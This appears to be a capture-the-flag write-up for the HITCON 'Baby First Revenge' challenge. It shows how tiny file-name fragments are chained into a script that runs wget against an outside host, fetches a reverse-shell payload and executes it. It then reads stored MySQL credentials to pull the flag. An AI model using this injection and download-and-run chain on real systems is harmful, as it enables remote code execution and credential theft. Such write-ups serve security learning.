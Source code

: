 Baby First Revenge v1

```
>echo
>wg\
*>.a
rm w*
>et
>ka\
*>>.a
rm e*
rm k*
>echo
>ibr\
*>>.a
rm i*
>o.t\
*>>.a
rm o*
>w
*>>.a
```

and then `sh .a`
it will `wget kaibro.tw`
and download the `index.html`

we can put reverse shell script into index.html on my server

`sh i*`
then we got reverse shell


cat /home/fl4444g/README.txt
```
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```


$ mysql -u fl4444g -p
Enter password: SugZXUtgeJ52_Bvr
use fl4gdb;
select * from this_is_the_fl4g;

`hitcon{idea_from_phith0n,thank_you:)}`
